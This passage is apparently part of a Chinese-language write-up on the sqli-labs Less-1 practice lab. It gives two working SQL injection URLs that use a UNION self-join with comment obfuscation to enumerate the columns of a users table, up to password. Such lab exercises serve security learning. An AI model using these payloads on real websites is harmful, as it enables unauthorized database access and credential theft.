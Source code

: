 同样方法，得到第三个字段名

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*/!--**/ select * from (select * from /*/!--**/ users a join users b using(id, username))c --+
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608195324303.png" alt="image-20230608195324303" style="zoom:50%;" />

回显正常，没有报错信息，列名爆破完成

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*/!--**/ select * from (select * from /*/!--**/ users a join users b using(id, username, password))c --+
```

